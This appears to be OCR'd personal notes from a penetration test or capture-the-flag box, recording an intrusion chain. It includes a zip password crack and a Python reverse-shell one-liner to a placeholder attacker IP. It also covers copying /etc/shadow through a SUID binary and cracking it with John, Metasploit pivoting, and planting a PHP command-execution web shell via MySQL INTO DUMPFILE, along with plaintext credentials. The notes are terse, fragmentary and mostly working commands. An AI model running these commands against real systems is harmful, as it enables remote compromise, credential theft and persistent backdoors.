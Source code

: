 - found file **notes.txt**, (size cp/uc     69/    57, flags 9, chk a1f0)
- checking pw KAWANNAT                                

```
PASSWORD FOUND!!!!: pw == "====0open/n"
```

#### open the zip file with the password
```
unzip -P '====0open/n' backup.zip 
	TEMP MGMT CONSOLE:
	https://172.16.80.24:4433/xl0827_dev_
```

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

```
username=tomcatadmin&pw=0x19$2B7!
amanda: M@ndy857#
```

### Find SUID files
- we can execute catme as root
- so we will copy the /etc/passwd and /etc/shadow to our machine

#### cracking
```
unshadow passwd shadow > forJohn
john forJohn -w=/usr/share/wordlists/rockyou.txt
james:159357
damien:secuirty3
```

> btw, rockyou did not have this password, thats a bold move ma boi
my fasttrack is not working, so i could not crack with rockyou



// now we can log into 172.61.80.27 via SSH with damien access
// damien has root access, so with a simple sudo bash we are root

```
cat /home/auditor/.bash_history
run autoroute -s 192.3.178.0/24
portfwd add -l 1234 -p 80 -r 192.3.178.3
portfwd list
mysql -h 192.3.178.3 -u root -pfArFLP29UySm4bZj
SELECT '<?php echo system($_GET["cmd"]); ?>' into DUMPFILE '/var/www/html/webtemp/backdoor.php';
```

   → http://localhost:1234/webtemp/backdoor.php?cmd=whoami

